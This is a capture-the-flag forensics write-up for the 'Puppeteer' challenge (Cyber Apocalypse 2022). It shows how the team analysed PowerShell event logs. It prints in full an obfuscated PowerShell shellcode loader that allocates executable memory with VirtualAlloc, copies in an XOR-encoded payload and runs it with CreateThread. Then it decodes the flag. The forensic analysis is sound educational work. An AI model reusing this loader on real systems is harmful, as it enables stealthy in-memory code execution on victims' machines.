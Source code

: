 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Puppeteer Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: forensics
challenge: Puppeteer
tags: ""
date: 2022-05-21T00:00:00+00:00
last_modified_at: 2022-05-21T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Puppeteer
> Solved By : Legend, Starrylord, Taz, thewhiteh4t

In this challenge we were given Windows Event logs files and in all these the one that most interesting were the Powershell ones.

![](https://i.imgur.com/7IQhoEs.png)

After that I used Event Viewer to look into these files and in `Microsoft-Windows-PowerShell%4Operational` found an interesting event where code was executed remotely and the description contained obfuscated powershell script.

![](https://i.imgur.com/NWIsPLL.png)

The whole script

```powershell
Creating Scriptblock text (1 of 1):
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);



for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);


ScriptBlock ID: 3f384b05-3a00-4a65-bbf7-e31b331ac923
Path: C:\sysmgr\special_orders.ps1
```

In the powershell script we have some interesting things :

```powershell
[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;

[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

[array]::Reverse($stage2);

$stage3 = $stage1 + $stage2;

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}
```

- two sets of hex arrays
- stage 2 is reversed
- stage 1 and reversed stage 2 are concatenated
- each item in stage 3 array is XORed against `0xd1`

I followed the steps and got the flag in cyberchef :

![](https://i.imgur.com/j7ZhlLr.png)

